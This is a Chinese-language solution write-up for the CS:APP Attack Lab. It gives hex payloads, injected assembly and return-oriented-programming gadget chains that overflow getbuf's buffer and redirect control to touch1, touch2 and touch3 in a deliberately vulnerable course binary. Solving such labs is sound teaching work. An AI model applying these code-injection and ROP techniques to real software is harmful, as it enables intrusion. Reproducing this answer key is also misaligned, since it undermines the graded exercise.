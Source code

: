 # Attack Lab

- [README](https://csapp.cs.cmu.edu/3e/README-attacklab)
- [ASCII Table](https://www.asciitable.com/)
- [writeup](./attacklab.pdf) 

## Level 1

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch1` 函数。

通过 `objdump` 获 `GDB` 可以得到 touch1 函数的首地址为 `0x00000000004017c0`。

根据 `getbuf` 函数的汇编代码可以看出该函数的缓冲区大小为 `0x28`，可以判定只要输入字符串超过 `40(0x28)` bytes 即可实现缓冲区溢出，从而覆盖 `getbuf` 函数的返回地址。

``` asm
0x00000000004017a8 <+0>: sub    $0x28,%rsp
0x00000000004017ac <+4>: mov    %rsp,%rdi
0x00000000004017af <+7>: callq  0x401a40 <Gets>
0x00000000004017b4 <+12>:  mov    $0x1,%eax
0x00000000004017b9 <+17>:  add    $0x28,%rsp
0x00000000004017bd <+21>:  retq
```

可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
c0 17 40 00 00 00         /* The address of touch1 */
```

.gdbinit 配置：

``` GDB
b *0x00000000004017b4
run -q < ./input.txt
x/xg 0x5561dca0
x/6xg $rsp
x/xg $rsp+0x28
```

## Level 2

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch2` 函数，并且 `touch2` 函数的入参必须是 `0x59b997fa`（cookie.txt）。

根据 Level 1，可如下构造输入令 `getbuf` 函数返回至 `touch2` 函数。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
ec 17 40 00 00 00
```

通过下面汇编代码将 `touch2` 函数的入参设置为 `0x59b997fa`。

``` asm
0: bf fa 97 b9 59        mov    $0x59b997fa,%edi
5: 48 83 c4 10           add    $0x10,%rsp
9: c3                    retq
```

最终可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
a8 dc 61 55 00 00 00 00   /* The address of the following asm code */
bf fa 97 b9 59            /* mov    $0x59b997fa,%edi */ 
48 83 c4 10               /* add    $0x10,%rsp */
c3                        /* ret */ 
00 00 00 00 00 00         /* Padding 0 */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```

.gdbinit 配置：

```
b *0x00000000004017b9
run -q < ./input.txt
x/10xg $rsp
```

## Level 3

可以构造如下题解通过此题目，关键是让 `touch3` 函数的地址小于 cookie 地址，这样后续函数对栈的操作不会覆盖 cookie。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
fa 18 40 00 00 00 00 00     /* The address of touch3 */
a8 dc 61 55 00 00 00 00     /* The address of the following asm code */
bf b8 dc 61 55              /* mov    $0x5561dcb8,%edi */ 
48 83 ec 10                 /* sub    $0x10,%rsp */
c3                          /* ret */ 
00 00 00 00 00 00           /* Padding 0 */
35 39 62 39 39 37 66 61     /* cookie */
```

## Level 4

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
cc 19 40 00 00 00 00 00   /* The address of asm code (0x4019cc): popq %rax (58 90 c3) */
fa 97 b9 59 00 00 00 00   /* cookie */
c6 19 40 00 00 00 00 00   /* The address of asm code (0x4019c6): movl %eax,%edi (89 c7 90 c3) */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```

## Level 5

思路参考：https://zhuanlan.zhihu.com/p/476396465

解决这一关的关键是利用 `lea (%rdi,%rsi,1),%rax (address: 0x4019d6)` 指令构造出 cookie 所在地址。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
06 1a 40 00 00 00 00 00   /* The address of asm code (0x401a06): movl %rsp,%rax (48 89 e0 c3) */
c5 19 40 00 00 00 00 00   /* The address of asm code (0x4019c5): movl %rax,%rdi (48 89 c7 90 c3) */
cc 19 40 00 00 00 00 00   /* The address of asm code (0x4019cc): popq %rax (58 90 c3) */
48 00 00 00 00 00 00 00   /* The offset of cookie */
42 1a 40 00 00 00 00 00   /* The address of asm code (0x401a42): movl %eax,%edx (89 c2 84 c0 c3) */ 
34 1a 40 00 00 00 00 00   /* The address of asm code (0x401a34): movl %edx,%ecx (89 d1 38 c9 c3) */
13 1a 40 00 00 00 00 00   /* The address of asm code (0x401a13): movl %ecx,%esi (89 ce 90 90 c3) */ 
d6 19 40 00 00 00 00 00   /* The address of asm code (0x4019d6): lea    (%rdi,%rsi,1),%rax (48 8d 04 37) */
c5 19 40 00 00 00 00 00   /* The address of asm code (0x4019c5): movl %rax,%rdi (48 89 c7 90) */
fa 18 40 00 00 00 00 00   /* The address of touch3 */
35 39 62 39 39 37 66 61   /* cookie */
```